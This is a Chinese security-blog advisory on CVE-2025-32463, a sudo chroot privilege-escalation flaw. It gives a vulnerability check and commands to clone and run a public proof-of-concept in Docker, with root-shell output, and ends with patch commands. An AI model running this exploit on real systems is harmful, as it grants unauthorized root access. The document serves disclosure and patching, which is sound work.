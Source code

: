 #  不容小觑的威胁：CVE-2025-32463 Linux提权漏洞，轻松利用却要紧急修复  
原创 didiplus  攻城狮成长日记   2025-07-06 03:03  
  
## 漏洞描述  
  
CVE-2025-32463  
是一个存在于 Linux 系统 sudo 组件中的高危本地权限提升漏洞，主要与 chroot 功能的安全性弱点相关。此漏洞允许攻击者通过精心构造特定的环境变量，在执行 sudo chroot  
 命令时规避既定的安全约束，进而非法获取目标系统的 root 权限。该安全问题的根本原因在于 chroot 机制在处理来自不可信源的输入时存在缺陷，未能有效防止潜在的权限升级攻击向量。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OsuOF7sibMYvxMk5fbib3zfqrkZSp06jVO1ShdicJA6o0onUls7uSewKnq5F3yicPiblsoib5YM5XtNNQpRZR7IzZhMQ/640?wx_fmt=png&from=appmsg "")  
## 影响组件  
  
Linux 是一个免费且开源的操作系统，其设计灵感来源于 Unix，并在服务器、嵌入式系统以及云计算平台等领域得到了广泛应用。  
  
作为 Linux 系统中管理权限的关键机制之一，sudo  
 允许经过授权的用户临时性地获取 root 或其他指定用户的权限以执行特定命令。这一机制不仅增强了系统的安全性，同时也简化了操作日志的记录与审计流程。  
## 影响版本  
  
大多数Linux  
发行版上的sudo 1.9.14  
至1.9.17  
（所有p修订版）的易受攻击版本都会受到影响。  
## 漏洞复现  
  
关注公众号回复: CVE-2025-32463  
获取提权exp  
### 快速检查漏洞  
```
# Vulnerable sudopwn ~ $ sudo-R woot wootsudo: woot: No such file or directory# Patched sudopwn ~ $ sudo-R woot woot[sudo] password for pwn:sudo: you are not permitted to use the -R option with woot
```  
### Docker容器中的测试漏洞  
```
# 1 – clone repo$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git$ cd CVE-2025-32463_chwoot# 2 – build and run Docker image (tagged "sudo-chwoot")$ ./run.sh# 3 – run exploit in container (runs root command directly or drops you into a root shell)pwn@f722d9182d1f:~$ ./sudo-chwoot.sh idwoot!uid=0(root)gid=0(root)groups=0(root),1001(pwn)pwn@f722d9182d1f:~$ ./sudo-chwoot.shwoot!root@f722d9182d1f:/# iduid=0(root)gid=0(root)groups=0(root),1001(pwn)root@f722d9182d1f:/#
```  
## 修复建议  
  
建议立即进行升级：将 sudo 更新至 1.9.17p1 或更高版本。目前，主流 Linux 发行版已提供相应的安全补丁，用户可通过执行以下命令来完成更新过程。  
```
# Ubuntu/Debian  sudoapt update &&sudoapt upgrade sudo # CentOS/RHEL  sudo yum update sudo  
```  
  
  
推荐文章  
  
- [密码策略不设防？等保2.0下，这些Linux加固配置你必须知道！](https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389157&idx=1&sn=88250db9b5ef6f33d6d2b0975b546a8a&scene=21#wechat_redirect)  
  
  
- [深入解析：用lsof揪出“幽灵文件”释放磁盘空间](https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389141&idx=1&sn=edbced0413cc2a1f92cd02a19853d3a0&scene=21#wechat_redirect)  
  
  
- [等保2.0硬核要求：SSH七项加固缺一不可](https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389133&idx=1&sn=74db6f4f82687f19d4dafdb932a2b45a&scene=21#wechat_redirect)  
  
  
- [一键收集服务器日志！用Ansible剧本解放你的双手！](https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389125&idx=1&sn=699185c3232b9f2258143416a7406eaf&scene=21#wechat_redirect)  
  
  
- [惊喜来袭！1panel迎来v2时代，一键升级畅享新功能](https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389111&idx=1&sn=e7c7dc4f5846a2fffe9286bc3e356ad4&scene=21#wechat_redirect)  
  
  
  
  
![微信公众号二维码](https://mmbiz.qpic.cn/sz_mmbiz_jpg/OsuOF7sibMYvxMk5fbib3zfqrkZSp06jVOpy6ibq3JUg3FgY83Ofg8kzVBD9BK1qibsInQogbMib8ia1zArLtOabR3Ng/640?wx_fmt=jpeg&from=appmsg "")  
  
扫码关注公众号  
  
关注我的博客  
  
didiplus.kwpmp.cn  
  
